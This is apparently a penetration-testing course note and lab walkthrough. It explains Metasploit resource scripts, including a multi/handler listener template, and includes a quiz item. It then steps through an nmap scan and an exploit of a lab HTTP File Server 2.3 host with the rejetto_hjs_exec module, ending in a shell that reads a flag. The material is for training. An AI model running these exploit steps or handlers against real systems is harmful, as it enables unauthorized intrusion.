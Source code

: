 
- Allow for Automation of repetitive tasks

```
ls -al /usr/share/metasploit-framework/scripts/resource/
```

Setup RC (resource) Script
```
nano <rc_file>
use multi/handler
set PAYLOAD <payload_choice>
set LHOST <local_host>
set LPORT <local_port>
exploit
```

Launch script
```
msfconsole -r <rc_file>
```

Load script from msfconsole
```
msfconsole 
resource <path_to_rc_file>
```

Create resource file in msfconsole 
```
makerc <resource_file_dir>
```
## Quiz

Which one of the following Msfconsole commands can be used to load a resource script?

	resource ~/Desktop/handler.rc


## Overview

A Kali GUI machine and a target machine running a vulnerable HTTP File Server server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

Objective: Exploit the application and retrieve the flag!

```
nmap -sV -sC -T 4 -v 10.4.23.123

PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WIN-OMCNBKR66MN
| Issuer: commonName=WIN-OMCNBKR66MN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-12T01:53:46
| Not valid after:  2025-02-11T01:53:46
| MD5:   a654 1621 abd2 4df9 b11c d91f 78d1 0733
|_SHA-1: e0ae 811d d012 babd fc37 a8bc 0826 e7bd f246 4da3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-13 07:30:42
|_  start_date: 2024-08-13 07:22:2
```   

```
service postgresql start && msfconsole 
search rejetto
use exploit/windows/http/rejetto_hjs_exec
exploit
```

```
shell 
cd /
more flag.txt
```


